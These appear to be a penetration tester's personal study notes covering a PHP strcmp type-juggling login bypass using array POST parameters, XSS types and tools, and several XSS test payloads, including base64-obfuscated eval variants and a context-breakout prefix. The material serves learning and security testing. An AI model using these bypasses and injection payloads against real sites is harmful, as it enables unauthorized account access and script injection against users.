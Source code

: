 ##### Type Juggling

PHP type juggling vulnerability occurs when a loose comparison operator  (== or!=) is used in the place of a strict comparison operator (===  or!==). 

![image-20241021201733300](/home/damuna/.config/Typora/typora-user-images/image-20241021201733300.png)

E.g. the following php code handling an authentication is vulnerable:

```php
if (strcmp($username , $_POST['username']) == 0) {
	if (strcmp($password, $_POST['password']) == 0) {
```

To exploit it, one can change the POST data of the web request in an empty array, since If we convert those variables into empty arrays ( `$username[] & $password[]`), the comparison will return NULL , and NULL == 0 will return true, causing the login to be successful.

### XSS 

##### Generalities:

Cross-site scripting (XSS) allow an attacker to masquerade as a victim user

- **Types:**
  - [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) input is processed by the *backend* and displayed on the page
  - [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) (persistent or second-order XSS) input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)
  - [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) input is processed by the *frontend* and displayed on the page

- **Tools**

  - BeeXssHunter
  - `~/TOOLS/python xsstrike.py -u []`
  - Payloads: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS Injection/README.md), [PayloadBox](https://github.com/payloadbox/xss-payload-list)

##### Exploit

- **Check the Payload on yourself** (a sintax check to see if it valid javascript)

  ```html
  data:text/html,<script>prompt()</script>
  ```

- **Verify:**

  - Check all parameters (also header!)

  - Payloads Prefix: `'"></script></title></style></textarea>`

  - Reflected

    - Payload with `prompt(document.domain)` function

      ```html
      <script>prompt(document.domain)</script>
      <script/src="data:;base64,cHJvbXB0KGRvY3VtZW50LmRvbWFpbikK"></script>
      <svg/onload=eval(atob("cHJvbXB0KGRvY3VtZW50LmRvbWFpbikK"));>
      ```
